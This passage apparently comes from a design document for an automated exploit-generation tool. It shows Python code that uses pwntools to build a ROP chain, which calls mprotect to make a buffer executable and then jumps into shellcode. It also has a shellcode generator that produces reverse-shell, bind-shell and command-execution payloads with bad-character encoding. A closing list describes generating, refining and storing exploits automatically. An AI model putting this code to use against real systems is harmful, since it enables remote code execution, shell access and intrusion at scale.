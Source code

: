 ```python
        return gadgets
    
    def _build_bof_chain(self, vuln):
        # Build ROP chain for buffer overflow
        # Goals:
        # 1. Bypass DEP/NX (use ROP)
        # 2. Call mprotect() or VirtualProtect()
        # 3. Execute shellcode
        
        chain = self.rop.call('mprotect', [vuln['buffer_addr'], 0x1000, 7])  # RWX
        chain += self.rop.call(vuln['buffer_addr'])  # Jump to shellcode
        
        return chain
```

**shellcode_generator.py Structure:**
```python
from pwn import *

class ShellcodeGenerator:
    def __init__(self, arch: str = 'amd64', os: str = 'linux'):
        context.arch = arch
        context.os = os
    
    async def generate(self, payload_type: str, options: dict):
        if payload_type == 'reverse_shell':
            shellcode = self._reverse_shell(options['lhost'], options['lport'])
        elif payload_type == 'bind_shell':
            shellcode = self._bind_shell(options['lport'])
        elif payload_type == 'exec':
            shellcode = self._exec_command(options['command'])
        
        # Encode to avoid bad characters
        if options.get('bad_chars'):
            shellcode = self._encode(shellcode, options['bad_chars'])
        
        return shellcode
    
    def _reverse_shell(self, lhost: str, lport: int):
        # Generate reverse shell shellcode
        shellcode = shellcraft.connect(lhost, lport)
        shellcode += shellcraft.dupsh()
        return asm(shellcode)
    
    def _encode(self, shellcode: bytes, bad_chars: list):
        # Encode shellcode to avoid bad characters
        # Use XOR, ADD, SUB encoders
        # Generate decoder stub
        pass
```

**Integration:**
- Automatically generate exploits from vulnerabilities
- Test exploits in safe environment
- Refine exploits based on results
- Store successful exploits in knowledge base

---